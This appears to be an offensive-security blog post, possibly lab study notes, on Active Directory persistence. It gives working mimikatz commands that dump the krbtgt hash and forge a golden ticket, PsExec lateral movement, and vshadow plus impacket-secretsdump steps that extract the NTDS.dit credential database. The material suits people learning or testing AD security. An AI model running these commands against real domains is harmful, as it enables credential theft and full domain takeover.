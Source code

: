 ```yaml
---
layout: post
title: Active Directory Persistence
titledate: 10/01/23
tags: ["infosec", "offsec", "AD", "powershell", "persistence"]
---
```


#### golden ticket

Silver Tickets create a TGS ticket to access a specific service but Golden Tickets give us access to the entire domain's resources

first let's try to laterally move from a windows client to the DC as the current user

    PS> PsExec64.exe \\DC1 cmd.exe

- Access Denied

without proper privs we are unable to do so

we will need Domain Admin Group account access or access to the DC

we can simulate this by use rdping to the DC with an admin account and using mimikatz to dump the krbtgt account

    mimikatz# privilege::debug

    mimikatz# lsadump::lsa /patch

### now that we have the NTLM hash of the krbtgt account and the domain SID we forge and inject our golden ticket

creating and injecting a golden ticket does not require any admin privs and can be done from a computer not conneted to the domain

    mimikatz# kerberos::purge

first we need to delete any existing kerberos tickets

now we'll supply our obtained domain SID and the /krbtgt options in mimikatz

    mimikatz# kerberos::golden /user:jim /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

now with our golden ticket we can try our lateral movement again in a new comman prompt INSIDE mimikatz to leverage our ticket in memory

    mimikatz# misc::cmd

    C:> PsExec.exe \\dc1 cmd.exe

check our groups

    C:> whoami /groups

if we uses PSExec with the ip we would still get Access Denied

    C:> psexec.exe \\192.168.50.70 cmd.exe

#### shadow copies

vshadow is a utility that lets us create a Shadow Copy so we can extract the Active Directory Database NTDS.dit file

we begin by logging into the DC as an admin user 

then start elevated prompt the vshadow utility

    C:> vshadow.exe -nw -p  C:

now copy the AD database from the shadow copy to the C: root 

    C:> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

now we sav the SYSTEM hive from the registry

    C:> reg.exe save hklm\system c:\system.bak

now we copy these 2 files to our kali system and use impacket

    $ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

now we can use these NTLM hashes and Kerberos keys in either pth techniques or crack them

